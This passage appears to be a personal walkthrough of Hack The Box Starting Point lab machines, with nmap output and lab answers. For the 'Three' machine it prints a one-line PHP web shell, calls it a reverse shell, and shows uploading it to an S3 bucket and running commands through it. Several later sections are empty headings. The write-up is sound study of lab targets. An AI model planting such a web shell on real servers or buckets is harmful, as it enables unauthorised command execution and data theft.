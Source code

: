 I used next reverse shell:

```php
<?php system($_GET['cmd']);?> 
```


Uploading reverse shell to s3 bucket:

```shell
aws s3 --endpoint=http://s3.thetoppers.htb cp shell.php s3://thetoppers.htb
```

After uploading reverse shell just go to: `http://thetoppers.htb/shell.php?cmd=cat+../flag.txt`

***

## <strong><font color="#34A5DA">Ignition</font></strong>

```
vladislav@Mac ~ % nmap -sVC 10.129.29.121
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-01 17:52 MSK
Nmap scan report for 10.129.29.121
Host is up (0.059s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-title: Did not follow redirect to http://ignition.htb/
|_http-server-header: nginx/1.14.2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.49 seconds
```

> Which service version is found to be running on port 80? ``

```shell
curl -v http://10.129.29.121
```

> What is the 3-digit HTTP status code returned when you visit http://{machine IP}/? `302`

From nmap scan:

> What is the virtual host name the webpage expects to be accessed by? `ignition.htb`

> What is the full path to the file on a Linux computer that holds a local list of domain name to IP address pairs? `/etc/hosts`

***

## <strong><font color="#34A5DA">Bike</font></strong>


***

## <strong><font color="#34A5DA">Funnel</font></strong>

***

## <strong><font color="#34A5DA">Pennyworth</font></strong>

***

## <strong><font color="#34A5DA">Tectics</font></strong>


### <font color="#FFA500">nuclei</font>
